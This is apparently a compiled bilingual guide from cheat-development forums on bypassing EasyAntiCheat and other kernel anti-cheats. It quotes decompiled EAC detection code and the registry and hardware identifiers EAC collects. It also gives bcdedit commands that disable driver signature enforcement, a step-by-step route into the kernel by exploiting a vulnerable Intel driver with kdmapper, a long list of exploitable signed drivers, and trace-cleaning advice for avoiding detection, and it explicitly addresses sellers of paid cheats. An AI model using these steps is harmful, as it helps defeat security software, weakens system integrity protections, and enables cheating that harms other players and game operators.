- [Apex Legends EAC Dumps](https://guidedhacking.com/threads/easy-anti-cheat-eac-unpacked-modules-dumps.12281/post-72363)
- [EasyAntiCheat.sys dump + tracer log file (the log file is 2.6GB lmao)](https://guidedhacking.com/threads/easy-anti-cheat-eac-unpacked-modules-dumps.12281/post-85172)

**Easy Anticheat Hypervisor and VM Detection - secret.club**
Currently EAC 在驱动程序初始化时执行单个 vmread。




**RDTSC/CPUID/RDTSC**
EasyAntiCheat 使用标准时间攻击，通过适当的 TSC emulation（在前面的小节中描述）使它们受到规避

**IA32_EFER**
我们注意到 EAC 在玩了大约 30 分钟的游戏后，会查询 `A32_EFER`。我们等了一段时间，看看是否有更多对 `MSR` 的读/写通过，但在坐等 40 分钟后，很明显没有其他事情发生。下面是在 [iPower’s](https://twitter.com/iPowerPower)  跟踪器中收到的通知。

`IofCallDriver/NtDeviceIoControlFile`


continue reading @ [secret.club](https://secret.club/2020/04/13/how-anti-cheats-detect-system-emulation.html#easyanticheat-procedures)

**CVEAC-2020: Bypassing EasyAntiCheat integrity checks**
作弊开发人员对反作弊自我完整性检查 self-integrity 特别感兴趣。如果你能绕过它们，你可以有效地修改或 “hook” 任何可能导致踢甚至被禁止的反作弊代码。在 EasyAntiCheat 的情况下，他们使用内核模式驱动程序，其中包含一些有趣的检测例程。我们将检查它们的完整性检查如何工作以及如何规避它们，从而有效地使我们能够禁用反作弊。


**Reversing process**
要做的第一件事实际上是确定是否有任何类型的完整性检查。最简单的方法是修改 .text 中的任何字节，然后查看反作弊软件是否会在一段时间后决定踢或禁止您。在我修改随机函数大约 10-40 秒后，我被踢了，这表明**他们确实在内核模块中进行完整性检查**。在我的 hypervisor-based debugger 基于管理程序的调试器的帮助下，其利用了 EPT 工具，我在一个由 LoadImage 通知例程调用的函数上设置了一个内存断点（请参阅[PsSetLoadImageNotifyRoutine](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-pssetloadimagenotifyroutine)）。一段时间后，我可以找到他们访问内存的位置。

在 IDA Pro 中检查外部参照并设置一些指令断点后，我发现了完整性检查函数的调用位置，其中之一位于 CreateProcess 通知例程中（请参阅[PsSetCreateProcessNotifyRoutine](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-pssetcreateprocessnotifyroutine)）。该例程负责反作弊初始化的某些部分，例如创建将用于表示游戏过程的内部结构。如果 EAC 发现其内核模块已被篡改，则不会初始化


Continue reading @ secret.club: [CVEAC-2020: Bypassing EasyAntiCheat integrity checks](https://secret.club/2020/04/08/eac_integrity_check_bypass.html)

**Here is a list of suspicious modules that EAC logs (from** [**adriayny**](https://github.com/adrianyy/EACReversing)**)** 这是 EAC 记录的可疑模块列表

```c++
- Dumper.dll
- Glob.dll
- mswsock.dll
- perl512.dll
- vmclientcore.dll
- vmwarewui.dll
- virtualbox.dll
- qtcorevbox4.dll
- vboxvmm.dll
- netredirect.dll
- atmfd.dll
- cdd.dll
- rdpdd.dll
- vga.dll
- workerdd.dll
- msvbvm60.dll
```

 

```cpp
if ( AttachToProcess(process, (__int64)&v5) )
{
    if ( GetUsermodeModule((UNICODE_STRING *)(StringTable + 4830))// Dumper.dll
        && GetUsermodeModule((UNICODE_STRING *)(StringTable + 4852))// Glob.dll
        && GetUsermodeModule((UNICODE_STRING *)(StringTable + 4870))// mswsock.dll
        && GetUsermodeModule((UNICODE_STRING *)(StringTable + 4894))// perl512.dll
        || GetUsermodeModule((UNICODE_STRING *)(StringTable + 4918))// vmclientcore.dll
        || GetUsermodeModule((UNICODE_STRING *)(StringTable + 4952))// vmwarewui.dll
        || GetUsermodeModule((UNICODE_STRING *)(StringTable + 4980))// virtualbox.dll
        || GetUsermodeModule((UNICODE_STRING *)(StringTable + 5010))// qtcorevbox4.dll
        || GetUsermodeModule((UNICODE_STRING *)(StringTable + 5042))// vboxvmm.dll
        || GetUsermodeModule((UNICODE_STRING *)(StringTable + 5066)) )// netredirect.dll
    {
        v3 = 1;
    }
```

**Some drivers it looks for**它寻找的一些驱动程序

```
- Dbgv.sys
- PROCMON23.sys
- dbk64.sys
```

```cpp
LOBYTE(v11) = 1;
if ( !(unsigned int)strstr2((__int64)&a1, (const char *)(StringTable + 8038), v11) )// Dbgv.sys
    break;
LOBYTE(v16) = 1;
if ( !(unsigned int)strstr2((__int64)&a1, (const char *)(StringTable + 8047), v16) )// PROCMON23.sys
    break;
LOBYTE(v17) = 1;
if ( !(unsigned int)strstr2((__int64)&a1, (const char *)(StringTable + 8061), v17) )// dbk64.sys
    break;
```

**EAC user-mode hooks: **用户模式挂钩

```code
hk_BaseThreadInitThunk (Kernel32ThreadInitThunkFunction - ntdll.dll)
hk_D3DXCreateFontA (EAT Hook)
hk_D3DXCreateFontIndirectA (EAT Hook)
hk_D3DXCreateSprite (EAT Hook)
hk_D3DXCreateTextureFromFileInMemory (EAT Hook)
hk_D3DXCreateTextureFromFileInMemoryEx (EAT Hook)
hk_D3DXLoadSurfaceFromMemory (EAT Hook)
hk_Dllmain_mono_dll (Inline Hook)
hk_LoadAppInitDlls (Inline Hook)
hk_LoadLibraryExW_user32 (IAT Hook - user32.dll)
hk_LoadLibraryExW_ws2_32 (IAT Hook - ws2_32.dll)
hk_LockResource_kernel32 (IAT Hook - kernel32.dll)
hk_NtCreateFile_kernelbase (IAT Hook - kernelbase.dll)
hk_NtDeviceIoControlFile_mswsock (IAT Hook - mswsock.dll)
hk_NtOpenFile_kernelbase (IAT Hook - kernelbase.dll)
hk_NtProtectVirtualMemory_kernelbase (IAT Hook - kernelbase.dll)
hk_NtQueryDirectoryFile_kernelbase (IAT Hook - kernelbase.dll)
hk_NtUserGetAsyncKeyState_user32 (IAT Hook - user32.dll)
hk_NtUserSendInput_user32 (IAT Hook - user32.dll)
hk_QueryPerformanceCounter (IAT Hook - game.exe)
hk_RtlExitUserProcess_kernel32 (IAT Hook - kernel32.dll)
hk_VirtualAlloc_iat_kernel32 (IAT Hook - kernel32.dll)
hk_mono_assembly_load_from_full (Inline Hook)
hk_mono_assembly_open_full (Inline Hook)
hk_mono_class_from_name (Inline Hook)
hk_mono_runtime_invoke (Inline Hook)
```

**EAC Suspect Threads detection routine for manually mapped code** EAC 可疑线程检测例程，用于手动映射的代码

APIs 用于枚举线程和打开它们的句柄: `CreateToolhelp32Snapshot`,`Thread32First`, `Thread32Next`, `OpenThread`

获取线程信息: `NtQueryInformationThread` (`ThreadBasicInformation` and `ThreadQuerySetWin32StartAddress`)

Stack walking 堆栈遍历: `GetThreadContext`, `RtlLookupFunctionEntry` and `RtlVirtualUnwind`


**Steps for detecting suspect threads:** 检测可疑线程步骤

获取当前进程中所有线程的信息（线程id、栈信息、线程基址; **thread id, stack information, thread base address**）

```c++
//getting thread info 获取线程信息
    if ( thread_info_obtained )
    {
        thread_info.ExitStatus = thread_basic_info.ExitStatus;
        thread_info.TebBaseAddress = (__int64)thread_basic_info.TebBaseAddress;
        thread_info.Priority = thread_basic_info.Priority;
        thread_info.BasePriority = thread_basic_info.BasePriority;
        thread_info.StartAddress = v18;
        if ( thread_basic_info.TebBaseAddress )
        {
            thread_info.StackBase = *((_QWORD *)thread_basic_info.TebBaseAddress + 1);
            thread_info.StackLimit = *((_QWORD *)thread_basic_info.TebBaseAddress + 2);
        }
        stack_walk_thread(*v8, v14, &thread_info.RipsStackWalk);
LABEL_22:
        v15 = v1->CurrentEntry;
        if ( v1->LastEntry == v15 )
        {
            reallocate_vector_thread_information(v1, v15, &thread_info);
        }
        else
        {
            memcpy_thread_information(v11, v15, &thread_info);
            ++v1->CurrentEntry;
        }
    }
    reset_thread_information_struct(&thread_info);
    ++v8;
    v19 = v8;
}
```

```c++
//stack walking routine 堆栈遍历例程
	run_count = 0;
    while ( run_count < 9 )
    {
        entry_pc = RtlLookupFunctionEntry(Context.Rip, &v20, 0i64);
        if ( entry_pc )
        {
            RtlVirtualUnwind_0(0i64, v20, Context.Rip, entry_pc, &Context, &v23, &v22, 0i64, thread_rip_1);
            if ( !Context.Rip )
                return vec_rips_stackwalk->FirstEntry != vec_rips_stackwalk->CurrentEntry;
            thread_rip_1 = Context.Rip;
            current_entry = vec_rips_stackwalk->CurrentEntry;
            if ( vec_rips_stackwalk->LastEntry == current_entry )
            {
                reallocate_vector_qword(vec_rips_stackwalk, current_entry, &thread_rip_1);
            }
            else
            {
                *current_entry = Context.Rip;
                ++vec_rips_stackwalk->CurrentEntry;
            }
        }
        ++run_count;
        RtlLookupFunctionEntry = *(__int64 (__fastcall **)(DWORD64, __int64 *, _QWORD))RtlLookupFunctionEntry_0;
    }
    return vec_rips_stackwalk->FirstEntry != vec_rips_stackwalk->CurrentEntry;
```


**Query all regions to get information about them** 查询所有区域以获取有关它们的信息

memory region information structure:

```cpp
//as the code is huge I'll be only posting their structure for memory regions 内存区域信息结构

struct MEMORY_REGION_INFORMATION
{
  MEMORY_BASIC_INFORMATION mbi;
  STRING_STRUCT DllName;
  STRING_STRUCT SectionName;
};
```


**Finding suspect threads from start addresses/stack walk rips outside modules' ranges** 从起始地址/堆栈遍历中查找可疑线程在模块范围之外撕裂
除非您对此隐藏，否则您没有 eac 绕过 

```cpp
  //start address check 地址检查
  start_address = thread_info_1->StartAddress;
  if ( start_address
    && (unsigned __int8)get_region_from_address(start_address, memory_region_info_vec_1, &memory_region_info_) )
  {
    if ( (memory_region_info_.mbi.Protect & 0x10
       || memory_region_info_.mbi.Protect & 0x20
       || memory_region_info_.mbi.Protect & 0x40) //executable region
      && !memory_region_info_.DllName.Length ) //not associated with a module
    {
        //copy data from suspect region
    }
  ////////////////////////////////////////////////////////////////////////

  //stack walk rips check
  entry = thread_info_1->RipsStackWalk.FirstEntry;
  current_entry = thread_info_1->RipsStackWalk.CurrentEntry;
  while ( entry != current_entry )
  {
    if ( *entry
      && (unsigned __int8)get_region_from_address(*entry, memory_region_info_vec_1, &memory_region_info_)
      && (memory_region_info_.mbi.Protect & 0x10
       || memory_region_info_.mbi.Protect & 0x20
       || memory_region_info_.mbi.Protect & 0x40) //executable region
      && !memory_region_info_.DllName.Length ) //not associated with a module
    {
        //copy data
    }
    //...
  }
//...
```

**Copying data and sending to their server** 复制数据并发送到他们的服务器

```cpp
//...
CEasyAntiCheat::send(eac_instance,
                     281i64,
                     Dst.FirstEntry,
                     (unsigned int)(LODWORD(Dst.CurrentEntry) - LODWORD(Dst.FirstEntry)));
//...
```

Hopefully after reading all of this, you realize that making a bypass for EAC is not a simple task. Sure you can get into kernel and you can gain access to the game's process. But EAC knows what you're doing, and it's only a matter of time before they ban you. If you want to bypass EAC just for screwing around, then that's fine. But if you're selling a paycheat where you have lots of users, you will need to make sure your EAC bypass is perfect. Luckily we have plenty of resources, and once you get into the kernel it's no too hard to dump the modules and start reversing. 希望在阅读完所有这些内容后，您会意识到绕过 EAC 并不是一项简单的任务。当然，您可以进入内核，并且可以访问游戏进程。但是 EAC 知道您在做什么，他们禁止您只是时间问题。如果你想绕过 EAC 只是为了搞砸，那很好。但是，如果您在拥有大量用户的情况下出售付费欺骗，则需要确保您的 EAC 绕过是完美的。幸运的是我们有足够的资源，一旦你进入内核，转储模块并开始逆向并不难。

**GH Resources**

- [Download - Easy Anti-Cheat - Dump (Rust), scripts EAC uses to detect aimbots](https://guidedhacking.com/threads/easy-anti-cheat-dump-rust-scripts-eac-uses-to-detect-aimbots.16276/)
- [Solved - EAC and MmCopyVirtualMemory ?](https://guidedhacking.com/threads/eac-and-mmcopyvirtualmemory.10701/)
- [Outdated - EAC Bypass for Apex Legends](https://guidedhacking.com/threads/eac-bypass-for-apex-legends.12115/)
- [Tutorial - Rust How to Disable EAC & Bypass Ban](https://guidedhacking.com/threads/rust-how-to-disable-eac-bypass-ban.15011/)


**External Resources**

- [adrianyy/EACReversing](https://github.com/adrianyy/EACReversing)
- [EquiFox/KsDumper](https://github.com/EquiFox/KsDumper)
- [Download - Easy Anti-Cheat - EAC Driver Dumps - Unpacked Modules](https://guidedhacking.com/threads/easy-anti-cheat-eac-driver-dumps-unpacked-modules.12281/)
- [Guide - How anti-cheats detect system emulation](https://guidedhacking.com/threads/how-anti-cheats-detect-system-emulation.14904/)
- [Rat431/EAC_Emu](https://github.com/Rat431/EAC_Emu)


Some additional info I found on pastebin:

Hardware scans by EAC:

EAC always gets your hard disk serial on boot up of their driver. They also get your mac address as well. This is always happening for any game, but the scans they do after this is different i think for each eac build/game.
They seem to do different scanning for different games/eac builds between the games. They have this array of numbers which points to the scan to be performed. and they loop though it. It seems to be static/hardcoded but probably changes for each game.

They allocate 0x400 bytes to store all this info below so they grab ALOT.

The scans are:

hardware scan id 0-3: reg values keys grab

Using the array I talked about above the two DWORDs in this array beforehand determine the path and key they will extract from registry.
In memory the array is an array of dword values, for example, a reg scan would look like [3,5,1,...,...,...]. This would mean we are doing scan id 1 and extracting BIOSReleaseDate and also \Registry\Machine\Hardware\Description\System\BIOS as the array has 3,5 for these parts.

These are the keys and path strings they can grab (don't ask me why they don't have number 7)
below are listed:
1 = \Registry\Machine\System\CurrentControlSet\Control\SystemInformation
2 = ComputerHardwareId
3 = \Registry\Machine\Hardware\Description\System\BIOS
4 = BIOSVendor
5 = BIOSReleaseDate
6 = SystemManufacturer
8 = SystemProductName
9 = \Registry\Machine\Hardware\DeviceMap\Scsi\Scsi Port 0\Scsi Bus 0\Target Id 0\Logical Unit Id 0
10 = Identifier
11 = SerialNumber
12 = \Registry\Machine\Hardware\Description\System\CentralProcessor\0
13 = ProcessorNameString
14 = <\Registry\Machine\System\CurrentControlSet\Control\Class\{4d36e968-e325-11ce-bfc1-08002be10318}\0000
15 = \Registry\Machine\Software\Microsoft\Windows NT\CurrentVersion
16 = InstallDate
17 = DriverDesc
18 = ProductId
19 = \Registry\Machine\Software\Microsoft\Windows\CurrentVersion\WindowsUpdate
20 = SusClientId
21 = \Registry\Machine\System\CurrentControlSet\Control\Class\{4d36e972-e325-11ce-bfc1-08002be10318}\0001

Hardware Scan Id 4 = Find all Drivers running and get checksum version info (resource editor) in .sys file

They use QuerySystemInformation to get all drivers running on your system (I think they exclude easyanticheat.sys in this).
For each driver they get back, they read it from the filesystem, check it has a valid pe header and if it does, try and locate the "Resource section" of the file. When they do, they look for version info resource and then inside version info resource they find the product version and checksum it. They also seem to store the size of the image as well but i'm not 100% on this. If you right click on a file and select properties on a .sys file and go to details, you may see a "Product version" field. This is what they are checksumming. I discovered that on my machine, they at least checksum "Classpnp.sys" as it has a product version. It could be any .sys file loaded essentially. They capture the filename, checksum of product version string and I believe also the image size from the pe as well.

Hardware Scan Id 5 = 64 bit or not

They check if you are using 64 bit version of windows or 32 bit. Not really useful but it's included in their scan results.

Hardware Scan Id 6 = PCI and USB device symbolic names:

They get all devices using IoGetDeviceInterfaces using this GUID ( i don't know how long this is
suppose to be but this is the first bytes of the pointer to the guid):
{84,84,C8,CA,15,75,3,4C,82,E6,71,A8,7A,BA,C3,61,F2,A3,46,21,82,39,2D,C0,A8 }

If they contain in the symbolic link name: \??\PCI or \??\USB then it is added to a final checksum. Note the ?? would be like a hex string like {4d36e968-e325-11ce-bfc1-08002be10318}, so they use these hex string in the device name to id.

Hardware Scan Id 7 = Processor Features
They get 0x40 bytes from memory address 0xfffff78000000274 and encrypt this and send this.

Hardware Scan Id 8 = Read contents of SystemRoot\System32\restore\MachineGuid.txt (if exists)

They read contents of SystemRoot\System32\restore\MachineGuid.txt and either encrypt or hash it.

Here is the scan array taken from Rust EAC 17th December 2018 Build ( see below)

struct ScanData {
unsigned int parameter1ForScan;
unsigned int parameter2ForScan;
unsigned int scanCode;
};

So for the first we see scan code 0 and we see parameter1Scan as 1 and parameter2ForScan as 2. Scan code 0 is reg scan and we are grabbing string 1 (\Registry\Machine\System\CurrentControlSet\Control\SystemInformation) & 2 (ComputerHardwareId)
Code:
/Registery/Machine/System/CurrentControlSet/Control/SystemInfomation/
\* ComputerHardwareId

HKEY_LOCAL_MACHINE\HARDWARE\DESCRIPTION\System\BIOS
\* BIOSVendor
\* BIOSReleaseDate
\* SystemManufacturer
\* SystemProductName

HKEY_LOCAL_MACHINE\HARDWARE\DEVICEMAP\Scsi\Scsi Port 0\Scsi Bus 0\Target Id 0\Logical Unit Id 0
\* Identifier
\* SerialNumber

HKEY_LOCAL_MACHINE\HARDWARE\DESCRIPTION\System\CentralProcessor\0
\* ProcessorNameString

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Class\{4d36e968-e325-11ce-bfc1-08002be10318}\0000
\* DriverDesc

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
\* InstallDate
\* ProductId

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\WindowsUpdate
\* SusClientId

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Class\{4d36e972-e325-11ce-bfc1-08002be10318}\0001

Registry\Machine\Software\Microsoft\Windows NT\CurrentVersion\Windows Activation Technologies\AdminObject\Store
\* MachineId
\* 64-bit
\* 32-bit

SystemRoot\System32\restore\MachineGuid.txt <-- they look for this file and use info from this (not everyone has this file)


---

## How to Bypass Kernel Anticheat & Develop Drivers 11325.

https://guidedhacking.com/threads/how-to-bypass-kernel-anticheat-develop-drivers.11325/

所有流行的游戏都在利用 [kernel](https://guidedhacking.com/threads/kernel-mode-drivers-info-for-anticheat-bypass.11325/) anticheat，黑客现在也必须进入 kernel mode。Kernel Anticheat 在防止用户模式 usermode 作弊方面非常有效。本指南将为您提供开始学习如何绕过kernel anticheat 所需要知道的一切。

The information provided in this guide will cover:

- Kernel Mode vs Usermode 内核模式与用户模式
- How to learn kernel driver development 如何学习内核驱动开发
- A video tutorial series covering kernel mode cheats 涵盖内核模式作弊的视频教程系列
- How to exploit vulnerable drivers 如何利用易受攻击的驱动程序
- Common vulnerable drivers & tools 常见易受攻击的驱动程序和工具
- An overview of the common functionality of kernel anticheats 内核反作弊的常见功能概述
- Detection of kernel cheats 检测内核欺骗


**Anticheats Utilizing Kernel Modules**

[BattleEye](https://guidedhacking.com/threads/battleye-anticheat-bypass-overview.11602/), [Xigncode](https://guidedhacking.com/threads/how-to-bypass-xigncode-anticheat.10800/), [Easy Anti Cheat](https://guidedhacking.com/threads/how-to-bypass-eac-easy-anti-cheat.15956/), [Vanguard](https://guidedhacking.com/threads/valorant-vanguard-anticheat-bypass.15961/)

[EAC](https://guidedhacking.com/threads/how-to-bypass-eac-easy-anti-cheat.15956/) and [Battleye](https://guidedhacking.com/threads/battleye-anticheat-bypass-overview.11602/) for example, are not running at boot. To bypass them, you manually map your driver before the anticheat loads. So, load your driver, then load the game with the anticheat services set to "manual load" in services.msc. It's a race to load first, if you can load first, you can hide from the anticheats. This is the majority of the reason why these anticheats are "easily" bypassed.


[EAC](https://guidedhacking.com/threads/how-to-bypass-eac-easy-anti-cheat.15956/)和Battleye，不在系统启动时运行。要绕过它们，您可以在**反作弊加载之前**手动映射驱动程序。因此，加载您的驱动程序，然后在 `services.msc` 中将反作弊服务设置为 "manual load" 来加载游戏。这是一场先加载的竞赛，如果你能先加载，你就可以躲避反作弊。这是这些反作弊“容易”绕过的主要原因。


**What is a kernel mode driver & Kernel Mode vs User Mode**

Windows 计算机中的**处理器**有两种不同的模式：**内核模式**和**用户模式**. 处理器根据**运行的代码类型**在两种模式之间切换。`普通.exe` 程序在**用户模式**下运行，而 `核心操作系统组件` 在**内核模式**下运行。用户模式和内核模式结构**内置于 CPU** 中。操作系统的底层核心功能是在内核模式下完成的，它是内存的**特权部分**，**不能从用户模式访问**，并在 CPU 上以特权状态执行。驱动程序**不仅限于硬件**驱动程序，您可以制作 `.sys` 驱动程序以在内核模式下执行任何您想做的事情，包括绕过反作弊和执行作弊功能。


User mode 进程驻留在它自己的虚拟地址空间中，该地址空间是私有的，通常不与其他进程的内存交互。每个应用程序都是独立运行的，如果常规程序崩溃，则崩溃**仅限于该应用程序**。其他应用程序和操作系统不受崩溃影响。

Kernel mode下运行的所有代码**共享一个虚拟地址空间**。这意味着内核模式驱动程序不会与其他驱动程序和操作系统本身隔离。如果 kernel mode 驱动程序意外**写入错误的虚拟地址**，则属于操作系统或其他驱动程序的数据可能会受到损害。如果内核模式驱动程序崩溃，整个操作系统就会崩溃。

您需要在游戏黑客中执行的许多**特权**操作都依赖于为您执行这些**任务的内核**。例如，当您调用 `WriteProcessMemory()` 时，该函数由 `NTDLL.DLL` 导出，写入另一个进程的内存的请求通过 `NTDLL` 传递到内核。您的应用程序实际上并没有这样做，内核是，您的程序只是在发出请求。查看下图以了解内核模式和用户模式是如何分离的。


User mode 进程无权访问 kernel mode 进程和内存。这就是 CPU 和操作系统的设计方式。


**How does this apply to bypassing Anticheat?**

如果您正在处理强大的 User mode 反作弊，您可以编写 kernel mode 驱动程序来绕过它。因为您在内核中而 anticheat 不在，您可以修改 anticheat 以停止检测，或者您可以完全**隐藏**您的 usermode module。user mode anticheat **不知道您在内核中做什么**。

如果 anticheat 有内核驱动程序，那么您也必须处于内核模式，因为您在用户模式下所做的任何事情**都无法绕过或隐藏**内核 anticheat。99% 的游戏都不需要 kernel mode drivers。事实上，kernel mode drivers 很容易被反作弊检测到，如果没有强技术。

编写 kernel driver 比 user mode applications 复杂得多，因此提供 "bypass" 的函数是在内核中完成的，但在大多数情况下，实际的作弊逻辑是在 usermode module 中完成的。在这种情况下，您加载驱动程序，启用 "bypass" 功能，然后注入 DLL。或者，您可以编写整个 hack 以在 kernel mode 下运行，这更加困难。


好的，在我们深入讨论之前，我将给您一个简单的 6 步过程，这是将您的方式粘贴到内核中的最简单方法：

1. [Video Tutorial - How to Make a Windows Kernel Mode Driver Tutorial](https://guidedhacking.com/threads/how-to-make-a-windows-kernel-mode-driver-tutorial.15201/)
2. [Video Tutorial - Kernel 2 - Usermode Communication - IOCTL Tutorial](https://guidedhacking.com/threads/kernel-2-usermode-communication-ioctl-tutorial.15381/)
3. [Video Tutorial - How to Write Memory from Kernel - MmCopyVirtualMemory Tutorial](https://guidedhacking.com/threads/how-to-write-memory-from-kernel-mmcopyvirtualmemory-tutorial.15883/)
4. Experiment with this source code [Source Code - CSGO Kernel Driver Multihack](https://guidedhacking.com/threads/csgo-kernel-driver-multihack.15130/)
5. Use [kdmapper ](https://guidedhacking.com/resources/kdmapper-manually-map-kernel-drivers-cve-2015-229.305/)which uses a vulnerable Intel driver to manually map your kernel driver (make sure anticheat is not loaded yet)
6. Start the game and use your usermode application to write to the game memory

通过这 5 个步骤，您可以开始使用 anticheat 写入游戏的内存。但是 **EAC 和其他强大的内核反作弊工具可以轻松检测到这一点**，因此请继续阅读以了解更多信息。


**Kernel Driver Development**
要开始驱动程序开发，请从以下资源开始：

- [Video Tutorial - How to Make a Windows Kernel Mode Driver Tutorial](https://guidedhacking.com/threads/how-to-make-a-windows-kernel-mode-driver-tutorial.15201/)
- [User mode and kernel mode - Windows drivers](https://docs.microsoft.com/en-us/windows-hardware/drivers/gettingstarted/user-mode-and-kernel-mode)
- [Kernel-Mode Driver Architecture Design Guide - Windows drivers](https://docs.microsoft.com/en-us/windows-hardware/drivers/kernel/)
- [Getting started with Windows drivers](https://docs.microsoft.com/en-us/windows-hardware/drivers/gettingstarted/)
- [Download the Windows Driver Kit (WDK)](https://docs.microsoft.com/en-us/windows-hardware/drivers/download-the-wdk)
- [Windows Driver Development - Windows Hardware Dev Center](https://msdn.microsoft.com/en-us/windows/hardware/ff960953.aspx)
- [Write a universal Hello World driver (KMDF)](https://docs.microsoft.com/en-us/windows-hardware/drivers/gettingstarted/writing-a-very-small-kmdf--driver)


**Driver Signing & Test Signing**  驱动程序签名和测试签名

如果您可以加载任何您想要的内核驱动程序，那么肯定会缺乏 Windows 安全性。这就是为什么 Windows 要求您的内核模式驱动程序使用**安全证书**进行签名以便操作系统加载它，但不用担心您不需要为证书支付 200 美元。如果要加载自己开发的驱动程序，则需要启用**测试签名**。

过去，您可以通过以管理员身份运行这些命令并重新启动来禁用驱动程序签名：

```shell
bcdedit.exe -set loadoptions DDISABLE_INTEGRITY_CHECKS
bcdedit.exe -set TESTSIGNING ON
```

在 Windows 8 和 10 上，您可能需要通过在启动期间按 F8 访问高级启动选项菜单来执行此操作。Windows 10 已禁用 F8 热键，以重新启用它：

```shell
bcdedit /set {default} bootmenupolicy legacy
```

然后重新启动，并在 Windows 加载之前按 F8，您将看到一个菜单，您可以在其中禁用驱动程序签名。或者，在 Windows 10 上，您可以在单击重新启动时按住 SHIFT，然后会出现此菜单。但它仅适用于一次重启，您每次都需要这样做，因为 Windows 10 会将其重置为默认值。 


**Kernel Anticheats Prevent games from loading when Test Signing is enabled**启用测试签名时，内核反热阻止游戏加载

The kernel anticheat developers got wise to this, and now they prevent you from playing the game if Test Signing is enabled. So you're forced to enable Driver Signing.

Then how do you load your driver? Keep reading my young padawan.

内核反作弊开发人员对此很明智，现在如果**启用了测试签名**，他们**会阻止您玩游戏**。所以你被迫启用驱动程序签名。

那么你如何加载你的驱动程序？继续阅读我年轻的学徒。


**Exploiting Kernel Drivers** 利用内核驱动程序

Kernel drivers 不仅适用于 hardware drivers，而且许多不同类型的软件都在使用它们。drivers 安全性很差，有很多易受攻击的驱动 vulnerable drivers。为了使开发变得简单和廉价，驱动程序向其用户模式应用程序公开函数，但它们经常公开了太多或提供太危险的函数。

任何从 usermode 获取数据并在内核中对其进行处理的驱动程序都可能容易受到攻击。许多都有可以利用的缓冲区溢出（buffer overflows），甚至更糟的是任意内核 arbitrary kernel 写入漏洞。可以从 usermode 利用这些漏洞来执行您的代码，理想情况下提供一种简单的方法来加载您自己的驱动程序。

但是你不能只加载你的驱动程序，你需要 manually map 它，因为它没有数字签名 digitally signed。这些易受攻击的内核驱动程序必须具有有效的安全证书。通过使用有效且经过认证的驱动程序，您可以毫无问题地手动映射未签名的驱动程序。Microsoft 或证书颁发机构可以随时决定拒绝这些证书，使它们不再有效，但这种情况极为罕见。

出于学习目的，首先学习使用 [KDMapper](https://guidedhacking.com/resources/kdmapper-manually-map-kernel-drivers-cve-2015-229.305/)，然后学习如何使用 [KDU](https://github.com/hfiref0x/KDU)


**KDMapper**

[**KDMapper** ](https://guidedhacking.com/resources/kdmapper-manually-map-kernel-drivers-cve-2015-229.305/) **很容易被anticheat检测到** 驱动程序有据可查，每个人都知道它是什么。但这是让您接触内核黑客攻击的良好开端。阅读更多[Download - KDMapper - Manually Map Kernel Drivers CVE-2015-229](https://guidedhacking.com/resources/kdmapper-manually-map-kernel-drivers-cve-2015-229.305/) 


**List of vulnerable drivers**** 易受攻击的驱动程序列表
可能有数千个易受攻击的驱动程序，以下是我们所了解的一些。

```sys
- iqvw64e.sys
- gpcidrv64.sys
- AsUpIO64.sys
- AsrDrv10.sys
- AsrDrv101.sys
- AsrDrv102.sys
- AsrDrv103.sys
- BSMEMx64.sys
- BSMIXP64.sys
- BSMIx64.sys
- BS_Flash64.sys
- BS_HWMIO64_W10.sys
- BS_HWMIo64.sys
- BS_I2c64.sys
- GLCKIO2.sys
- GVCIDrv64.sys
- HwOs2Ec10x64.sys
- HwOs2Ec7x64.sys
- MsIo64.sys
- NBIOLib_X64.sys
- NCHGBIOS2x64.SYS
- NTIOLib_X64.sys
- PhlashNT.sys
- Phymemx64.sys
- UCOREW64.SYS
- WinFlash64.sys
- WinRing0x64.sys
- amifldrv64.sys
- atillk64.sys
- dbk64.sys
- mtcBSv64.sys
- nvflash.sys
- nvflsh64.sys
- phymem64.sys
- rtkio64.sys
- rtkiow10x64.sys
- rtkiow8x64.sys
- segwindrvx64.sys
- superbmc.sys
- semav6msr.sys
- piddrv64.sys
- RTCore64
- Gdrv
- ATSZIO64
- MICSYS
- GLCKIO2
- EneIo
- WinRing0x64
- EneTechIo
```


**Vulnerable Driver Resources**

- [Discuss - New vulnerable kernel drivers](https://guidedhacking.com/threads/new-vulnerable-kernel-drivers.13209/) 新的易受工具的内核驱动程序
- [Weaponizing vulnerable driver for privilege escalation— Gigabyte Edition!](https://medium.com/@fsx30/weaponizing-vulnerable-driver-for-privilege-escalation-gigabyte-edition-e73ee523598b)
- [EvanMcBroom/PoCs](https://github.com/EvanMcBroom/PoCs)
- [Escaping SMEP Hell: Exploiting Capcom Driver In a Safe Manner](https://blog.can.ac/2018/04/28/escape-smep-exploiting-capcom-safely/)
- [can1357/safe_capcom](https://github.com/can1357/safe_capcom)
- [notscimmy/libcapcom](https://github.com/notscimmy/libcapcom)
- [Bypassing Anti-Cheats - Part 1 - Exploiting Razer Synapse Driver - Niemand - Cyber Security](https://niemand.com.ar/2020/02/07/bypassing-anti-cheats-part-1-exploiting-razer-synapse-driver/)
- [Mother of All Drivers - New Vulnerabilities Found in Windows Drivers - Eclypsium](https://eclypsium.com/2019/11/12/mother-of-all-drivers/)


**Everything from hfiref0x is amazing**

- [hfiref0x - Overview](https://github.com/hfiref0x) specifically -> [hfiref0x/KDU](https://github.com/hfiref0x/KDU)
- [The Vault](https://swapcontext.blogspot.com/)
- https://twitter.com/hFireF0X


**General Functionality of Kernel Anticheats**

- All the normal usermode detections 所有正常的用户模式检测
- Blocking / stripping of process handles 进程句柄的阻塞/剥离
- Detection of test signing 测试签名
- Detection of usermode hooks 用户模式hook
- Detection of injected modules 注入模块
- Detection of manually mapped modules 手动映射模块
- Detection of kernel drivers 内核驱动程序
- Detecting of traces of manually mapped drivers 手动映射驱动程序的痕迹
- Detection of virtual machines and emulation 虚拟机和仿真


**Manually Mapped Driver Detection** 手动映射驱动检测
你必须绕过这些东西，**清除** `PiDDBCacheTable` 和 `MmUnloadedDrivers`，并**停止枚举** `enumeration` your own system pools & threads。

- PiDDBCacheTable & MmUnloadedDrivers
- system pool detection
- system thread detection

